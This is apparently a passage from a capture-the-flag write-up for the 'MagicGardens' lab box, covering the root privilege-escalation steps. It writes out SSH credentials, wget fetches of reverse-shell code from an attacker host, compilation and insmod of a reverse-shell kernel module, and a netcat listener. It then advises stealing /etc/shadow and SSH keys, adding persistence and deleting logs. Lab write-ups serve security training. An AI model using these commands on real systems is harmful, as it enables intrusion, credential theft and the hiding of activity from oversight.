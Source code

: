 ```bash
### Steps to Escalate Privileges

1. **SSH into the Box**: Use Morty's credentials to SSH into the box:

    ```bash
    ssh morty@magicgardens.htb
    password: jonasbrothers
    ```

2. **Download and Compile a Reverse Shell Kernel Module**:
   
   - Download the necessary files to create a reverse shell kernel module:

     ```bash
     morty@magicgardens:~$ wget http://IP/reverse-shell.c; wget http://IP/Makefile
     ```

   - Compile the kernel module:

     ```bash
     morty@magicgardens:~$ make
     make -C /lib/modules/6.1.0-20-amd64/build M=/home/morty modules
     ```

     This command compiles the `reverse-shell.c` file into a kernel module named `reverse-shell.ko`.

3. **Start a Listener on Your Local Machine**:
   
   - Before loading the kernel module, start a Netcat listener on your local machine to catch the reverse shell:

     ```bash
     nc -vlnp 4444
     ```

4. **Load the Compiled Kernel Module**:
   
   - Load the kernel module in the container to gain root access:

     ```bash
     insmod reverse-shell.ko
     ```

   Once the module is loaded, you should receive a reverse shell connection on your local machine, granting you root access.

### Post-Exploitation

With root access, you can fully control the target machine. Consider performing the following actions:

- **Extract Sensitive Files**: Download and review sensitive files such as `/etc/shadow` and `/root/.ssh/authorized_keys`.
- **Create Persistence**: Add your SSH key to the root's authorized keys to maintain access.
- **Clean Up**: Remove any traces of your activity, including log files and compiled kernel modules.

This method demonstrates how to leverage Linux capabilities for privilege escalation effectively, gaining root access on the target system.
## Step 6: Gaining Root Access

```